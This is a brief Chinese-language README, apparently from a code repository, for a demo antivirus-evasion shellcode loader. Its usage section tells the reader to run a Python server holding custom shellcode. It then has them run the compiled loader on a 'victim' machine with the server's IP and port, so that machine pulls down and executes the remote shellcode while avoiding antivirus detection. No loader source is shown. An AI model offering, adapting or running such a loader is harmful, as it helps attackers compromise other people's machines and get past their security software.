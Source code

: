 ## 简介
学习了倾旋大表哥的免杀系列，还有亮神的文章，根据分离免杀的思路写了一个demo，真要用，建议去使用倾旋大表哥的Cooolis-ms，我吹爆。 

## 名字由来
我就是个起名鬼才，随手就是个名字。  

## 优势
问就是没有  

## 使用
在服务器上运行server.py，注意根据需求修改文件中shellcode内容即可。   
编译shellcodeloader。  
然后victim上运行：
```
shellcodeloader.exe ip port #服务器的ip和端口
```

## 其他
有问题不要找我，自己跟着网上代码改就可以了。 



